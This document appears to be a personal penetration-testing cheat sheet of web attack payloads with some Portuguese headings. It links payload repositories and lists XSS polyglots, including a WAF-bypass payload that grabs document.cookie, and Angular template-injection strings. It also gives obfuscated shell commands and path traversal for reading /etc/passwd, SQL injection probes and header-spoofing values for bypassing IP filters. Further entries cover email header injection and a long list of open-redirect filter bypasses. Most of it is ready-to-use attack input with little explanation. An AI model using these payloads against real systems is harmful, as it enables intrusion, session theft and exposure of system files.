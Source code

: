 ```yaml
---
title: Out of the Box - Payloads
date: 2022-07-23 00:00:00
---
```


## Payload Lists
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/cujanovic/Markdown-XSS-Payloads
https://github.com/pwntester/ysoserial.net
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/API%20Key%20Leaks (APIs)
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/AWS%20Amazon%20Bucket%20S3 (AWS Buckets)
http://www.xss-payloads.com


## Payload keys
XSS Ideas
```
XSS poliglota:
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Cross Site Scripting (XSS) Akamai WAF Bypass
<!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>
```

```javascript
jQuery Version:
alert(jQuery.fn.jquery);

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Angular:
```
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor('alert(/XSS Stored!/)')()}}
1023+1 ou {{1023+1}}
```

Reading /etc/passwd File:
```
1) cat$IFS$9${PWD%%[a-z]*}e*c${PWD%%[a-z]*}p?ss??
2) ??n/??t$IFS/?tc/????wd
3) ??n${PATH%%[a-z]*}??t$IFS${PATH%%[a-z]*}??c${PATH%%u*}?????d
4) ../../../../../../../../../../../../etc/passwd

Explantion:
$'\x41' => 'A' (HEX)
$'\U41' => 'A'  (HEX Unicode)
$'\101' => 'A' (Octal)
```

SQL Ideas:
```
1+OR/AND+1=1 and sELeCt/*Test*/1 and so .

/?id=1%27%20AND%20%271%27=LENGTH(%27;%27)%20--+
/?id=1%27%20AND%20%271%27=LENGTH(%27;;%27)%20--+

/?id=1%27%20AND%20%271%27=STRCMP(%22;%22,%20%22;%22);%20--+
/?id=1%27%20AND%20%271%27=STRCMP(%22;;%22,%20%22;%22);%20--+

/?id=1%27%20AND%20%271%27=(sELecT%20@LOL:=1)%20--+
/?id=1%27%20AND%20%271%27=(sELecT%20@LOL:=12)%20--+
```

Some SQLMap Commands to start:
```
...working in progress...
```

WAF - ByPass Controle por IP
```
X-Originating-IP:localhost
X-Forwarded-For:localhost
X-Remote-IP:localhost
X-Remote-Addr:localhost
X-Forwarded-Host:localhost
X-Client-IP:localhost
X-Remote-IP:localhost
X-Remote-Addr:localhost
X-Host:localhost
True-Client-Ip:localhost
```

Forget Password Testing ( Method 10 ) ==> #WayToInjection
Play With Email Header Injection.
```
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

Open redirect/SSRF payload generator
https://tools.intigriti.io/redirector/
```
basic payloads
https://google.com/redirect.php?redirect=https:/facebook.com
https://google.com/redirect.php?redirect=https://facebook.com
https://google.com/redirect.php?redirect=http:/\/\facebook.com
https://google.com/redirect.php?redirect=https:/\facebook.com
https://google.com/redirect.php?redirect=#facebook.com
https://google.com/redirect.php?redirect=#%20@facebook.com
https://google.com/redirect.php?redirect=/facebook.com

URL encoding
https://google.com/redirect.php?redirect=%2Ffacebook.com
https://google.com/redirect.php?redirect=%2F%2Ffacebook.com
https://google.com/redirect.php?redirect=https%3A%2F%2Ffacebook.com

CRLF
https://google.com/redirect.php?redirect=%0D%0A/facebook.com

a whitelisted domain or keyword
https://google.com/redirect.php?redirect=google.com.facebook.com
https://google.com/redirect.php?redirect=google.comfacebook.com

"https:" to bypass "//" blacklisted keyword
https://google.com/redirect.php?redirect=https:facebook.com

"\/" to bypass "//" blacklisted keyword
https://google.com/redirect.php?redirect=\/\/facebook.com/
https://google.com/redirect.php?redirect=/\/facebook.com/

parameter pollution
https://google.com/redirect.php?redirect=?next=google.com&next=facebook.com

"@" character, browser will redirect to anything after the "@"
https://google.com/redirect.php?redirect=@facebook.com

"//" to bypass "http" blacklisted keyword
https://google.com/redirect.php?redirect=//facebook.com
https://google.com/redirect.php?redirect=
https://google.com/redirect.php?redirect=

Right to Left Override
https://google.com/redirect.php?redirect=%40%E2%80%AE@moc.koobecaf

null byte %00 to bypass blacklist filter
https://google.com/redirect.php?redirect=facebook%00.com

'%E3%80%82' or '。' to bypass '.' blacklisted character
https://google.com/redirect.php?redirect=facebook%E3%80%82com
https://google.com/redirect.php?redirect=facebook。com
```
Insecure Deserialization
```
Payloads: https://github.com/pwntester/ysoserial.net
Json insercure deserialization: https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a
```